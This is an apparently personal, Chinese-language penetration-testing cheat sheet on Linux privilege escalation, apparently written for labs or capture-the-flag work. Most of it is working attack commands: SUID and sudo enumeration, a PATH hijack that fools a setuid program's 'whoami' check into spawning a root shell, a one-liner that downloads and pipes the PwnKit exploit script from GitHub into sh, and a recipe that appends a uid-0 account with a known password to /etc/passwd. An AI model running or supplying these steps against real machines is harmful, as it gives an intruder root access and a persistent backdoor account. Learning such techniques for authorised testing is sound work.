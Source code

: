 # 渗透测试中的提权思路
## 1. 查找提权点
### 系统版本号
```
uname -r //查看系统版本号
```
上网搜索相关漏洞
### 看敏感目录
```
/var/www
/home
```
### 当前目录的权限信息
```
ls -la

Example:
$ ls -la
total 32
drwxr-xr-x  5 user group  4096 Aug 15 10:20 .
drwxr-xr-x 12 user group  4096 Aug 15 09:30 ..
-rw-r--r--  1 user group   220 Aug 15 09:20 .bash_logout
-rw-r--r--  1 user group  3771 Aug 15 09:20 .bashrc
drwxr-xr-x  2 user group  4096 Aug 15 10:18 .config
-rw-r--r--  1 user group   807 Aug 15 09:20 .profile
-rw-r--r--  1 user group     0 Aug 15 10:20 example.txt
drwxr-xr-x  2 user group  4096 Aug 15 10:18 my_folder

d/- 目录/文件
_________ 所有者权限 所属用户组的权限 其他用户的权限
硬链数
所有者及其ta所属的组
最后修改时间
有 . 为文件，无 . 则为目录
```
有个特殊的粘滞位 `t`
粘滞位（sticky bit)：
- **`t`**：粘滞位的存在意味着只有文件的所有者、目录的所有者或超级用户（root）才能删除或重命名目录中的文件。这常用于公共目录（如 `/tmp`），以防止用户删除其他用户的文件。
### `sudo` 命令 （最好不是 www-data 用户）
使用 `sudo` 列出可执行命令
```
sudo -l
```
查看当前用户可以使用 `sudo` 执行的命令列表。
https://gtfobins.github.io/ 配合 `sudo -l` 食用更佳。
### crontab 
`/etc/crontab` https://crontab.guru/
```
cat /etc/crontab // 看有没有 root 权限的定时任务
```
### SUID位文件，最好有 root 的 SUID 位
查找 SUID (Set User ID) 位的文件，这种文件在执行时可以以文件所有者的权限运行，比如 `passwd` 就是一个设置了 SUID 的文件，普通用户在使用时可以执行 root(也就是文件的所有者) 的权限来修改自己的密码。如果要用 root 权限，则需要找出 root 所拥有的文件。
```
find / -perm -4000 -type f 2>/dev/null
```
### 列出以 root 运行的进程
查看以root运行的进程，只是显示当前的，可能要多看几次
```
ps aux | grep -i 'root' --color=auto
```
### 上传 `pspy64` 
`pspy64` 可以一直监视，弥补上面那个命令的缺陷，但动作有点大
https://github.com/DominicBreuker/pspy/releases
## 2. 特殊情况
### 2.1用户名欺骗 `whoami`
```
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main() {
    printf("checking if you are tom...\n");
    // 使用popen打开一个子进程执行"whoami"命令，并以读模式打开文件指针f
    FILE* f = popen("whoami", "r");

    char user[80]; // 定义一个字符数组，用于存储用户名
    fgets(user, 80, f); // 从文件指针f中读取最多79个字符到user数组中，留一个空位给'\0'

    printf("you are: %s\n", user); // 打印出当前用户名
    //printf("your euid is: %i\n", geteuid()); // 注释掉的代码，用于打印有效用户ID

    // 检查user数组的前3个字符是否与字符串"tom"相匹配
    if (strncmp(user, "tom", 3) == 0) {
        printf("access granted.\n"); // 如果是"tom"，则打印"access granted."
        setuid(geteuid()); // 将真实用户ID设置为有效用户ID，通常用于提权
        execlp("sh", "sh", (char *) 0); // 执行一个新的shell，替换当前进程
    }
}

// 根据上述程序，对策如下：
// 当前目录为 
echo "printf "tom"" > whoami // 将 `printf "tom"` 写入文件 whoami，如果没有这个文件，就创建

chmod +x whoami // 加执行文件

export PATH=/tmp:$PATH // 将 /tmp 放在环境变量的最前面，覆盖掉原来的 whoami
```
### 2.2 `pkexec`
 前提条件为能找到这个 SUID 文件
`sudo` 和 `pkexec` 都是提权。
`sudo` 主要用于命令行界面（CLI），而 `pkexec` 主要用于图形用户界面（GUI）
https://github.com/ly4k/PwnKit
```
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```
上次成功的时候是切换到用户自己文件夹中。
### 2.3 与备份相关
与备份相关的可能是定时任务，并且执行备份的用户的权限应该很高。
### 2.4 在 `/etc/passwd` 中添加用户
```
/opt/devstuff/test.py
```
代码内容如下
```python
#!/usr/bin/python

import sys

if len (sys.argv) != 3 : # sys.argv 是命令行参数数组，包含了命令行参数 
    print ("Usage: python test.py read append")
    sys.exit (1) # 类似于 C 语言的 return 1;

else :
    f = open(sys.argv[1], "r") # 读取 ./test 后第一个输入的文件名
    output = (f.read()) # 先存在 output 中

    f = open(sys.argv[2], "a") # 再打开 ./test 后第二个输入的文件名，并且是 append (附加)的形式
    f.write(output) # 在结尾写上 output 的内容
    f.close()
```

上述代码作用是从 read 处读取一个文件，并将其内容附加到 append 文件结尾，并且这两个操作还是 root 权限，那么就可以往一些敏感文件加信息了。可以往 `/etc/passwd` 中添加信息，也就是加一个 root 用户。

openssl 一般用于 `/etc/passwd` 文件的加密
```
openssl passwd -1 -salt passion 123456
```

得到下面这个经 md5 加密的密码，带有盐值 passion
```
$1$passion$6B1Neow110enwwaaEaWQs.
```

接下来利用 `test`将 `passion:$1$passion$6B1Neow110enwwaaEaWQs.:0:0::/root:/bin/bash` 附加到 `/etc/passwd` 中
```
cd /tmp

echo 'passion:$1$passion$6B1Neow110enwwaaEaWQs.:0:0::/root:/bin/bash' > passion

cd /opt/devstuff/dist/test

sudo ./test /tmp/passion /etc/passwd
```

提权成功
```
su passion
123456
```

结束
## 3. 其它
### python3本地开服务器
```
python3 -m http.server 80
```
### 稳定 shell (python版reverse shell)
```
python3 -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm
```